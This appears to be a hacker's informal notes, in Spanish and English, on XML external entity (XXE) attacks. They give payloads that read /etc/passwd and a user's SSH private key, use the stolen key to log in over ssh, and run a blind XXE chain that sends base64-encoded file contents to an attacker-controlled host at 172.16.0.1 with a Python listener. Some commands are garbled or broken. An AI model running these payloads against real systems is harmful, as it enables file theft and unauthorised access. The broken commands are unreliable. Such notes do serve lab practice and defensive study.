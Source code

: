 
Traducción del inglés-El ataque de entidad externa XML, o simplemente ataque XXE, es un tipo de ataque contra una aplicación que analiza la entrada XML. Este ataque ocurre cuando la entrada XML que contiene una referencia a una entidad externa es procesada por un analizador XML mal configurado. [Wikipedia (Inglés)](https://en.wikipedia.org/wiki/XML_external_entity_attack)


So when we can put an atchive xml on some website or we can see on a web petition something on XML we must abuse of the !ENTITY  (is like a variable)

```
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "file:///etc/passwd">] >
<elements>
<Author>&xxe;</Author>
<Subject>Peperoni</Subject>
<Content>This is the content</Content>
</elements>
```
you can put (replace, foo or investigate another ones) 


We can now see if we can watch the private key of this user
```
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "file:///home/user/.ssh/id_rsa">] >
<elements>
<Author>&xxe;</Author>
<Subject>Peperoni</Subject>
<Content>This is the content</Content>
</elements>
```

now that we have the key we save it on a file called "id_rsa"

chmod 600 id_rsa  
and now

We use the file as identity file to connect to that machine.
```
ssh -i id_rsa user@10.10.10.91
```


# BLIND XXE #

Same idea but we need an external entity if we want to see the content.


And in our pc or server we must put another this if we want to see the content of the petitions that we made.



Hacemos dos , una es para leer el archivo y la otra es para enviarla aparentemente al servidor en mi maquina o donde sea que recibo la peticion para interpretarla.. la primera aparentemente recibe el archivo en base 64 y la otra lo envia a ese servidor.. creo

creo dos entidades, una se llama poc  y la otra xxe
```
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///etc/passwd">
<!ENTITY % poc "<!ENTITY &#37; xxe SYSTEM 'http://172.16.0.1:4444/value=?%file;'>">
```

Ok now we listen with python.
```
python3  http.server 80
```


We must put something like this on the victims environment... call the two entitys
```
<?xml_version="1.0" encoding="utf-8">
<!DOCTYPE XXE [<!ENTITY % remote SYSTEM "http://172.16.0.1:4444/data.xml"> 
%remote;
%poc;
xxe;
]>
```


Now we recive the etc passwd on our server  in base64 ... to decode lets use 

```
echo "textonbase64" | -d base64 ; echo 
```

